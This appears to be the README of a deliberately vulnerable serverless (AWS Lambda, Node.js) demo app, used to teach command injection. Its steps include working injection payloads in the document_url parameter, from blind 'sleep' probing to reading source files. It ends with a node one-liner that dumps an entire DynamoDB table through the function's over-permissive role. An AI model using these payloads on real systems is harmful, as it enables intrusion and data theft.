 # Overview
This is a simple Node.js AWS Lambda function that has several vulnerabilities and weaknesses. The function receives a URL to a .doc file as input, and converts it to plain text. The attack process starts by blind probing for a command injection, exploiting the remote command execution vulnerability (through a shell process), and then exploiting the  over-permissive role assigned to the function, in order to grab all the information in the DynamoDB table.

# Installation
1. Clone the repo
2. Make sure you have the Serverless framework installed, and use ```sls deploy``` 
3. Normal execution flow:
 ```curl -G https://API_GATEWAY_URL/dev/convert --data-urlencode "document_url=www.snee.com/xml/xslt/sample.doc"```
4. Blind probing for remote command execution:
```curl -G https://API_GATEWAY_URL/dev/convert --data-urlencode "document_url=; sleep 10 #"```
5. Exploitation to read the contents of the /var/task directory:
```curl -G https://API_GATEWAY_URL/dev/convert --data-urlencode "document_url=; ls #"```
6. Retrieve the function's source code: 
```curl -G https://API_GATEWAY_URL/dev/convert --data-urlencode "document_url=; cat handler.js #"```
7. Extract all the sensitive data from the DynamoDB table:
```curl -G https://API_GATEWAY_URL/dev/convert --data-urlencode "document_url=; node -e 'const AWS = require(\"aws-sdk\"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();' # "```
